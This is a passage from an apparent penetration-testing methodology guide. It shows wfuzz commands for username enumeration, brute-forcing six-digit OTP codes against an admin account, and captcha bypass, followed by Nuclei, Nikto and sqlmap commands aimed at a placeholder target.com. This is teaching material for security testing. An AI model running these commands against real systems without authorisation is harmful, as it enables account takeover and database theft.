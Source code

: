     # Registration form enumeration
    wfuzz -c -z file,usernames.txt -d "username=FUZZ&email=test@test.com&password=test123" "https://target.com/register" -c

    # Two-factor authentication bypass
    wfuzz -c -z range,000000-999999 -d "otp=FUZZ&username=admin" "https://target.com/verify-otp"

    # Captcha bypass testing
    wfuzz -c -z file,common-answers.txt -d "captcha=FUZZ&user=admin&pass=password" "https://target.com/login"
    ```
*   **Why It's Useful:** Form-based attacks can bypass client-side restrictions, test for account enumeration, and identify weak authentication flows. Modern web applications often have complex authentication mechanisms that require specialized testing.

---

### **Phase 4: Vulnerability Analysis & Exploitation**

This phase involves actively testing for specific flaws and attempting to exploit them.

#### 16. AUTOMATED VULNERABILITY SCANNING

*   **Technique Type:** Vulnerability Analysis (Active)
*   **Tools:** Nuclei, Nikto
*   **The Commands:**
    ```bash
    # Fast template-based scan for common misconfigurations
    nuclei -l live_hosts.txt -t http/exposures

    # Deep, noisy scan for a single host
    nikto -h https://target.com
    ```
*   **Why It's Useful:** `Nuclei` is the modern tool for quickly checking many hosts for thousands of known issues using community-based templates. `Nikto` is an older, very noisy tool that is excellent for an in-depth analysis on a single server to find dangerous files and outdated software.

#### 17. SQL INJECTION TESTING

*   **Technique Type:** Vulnerability Analysis (Active)
*   **Description:** `sqlmap` is the definitive tool for automatically finding and exploiting SQL injection flaws.
*   **Tool:** sqlmap
*   **The Commands:**
    ```bash
    # Test a specific URL you suspect is vulnerable
    sqlmap -u "https://target.com/products.php?id=1" --dbs --batch
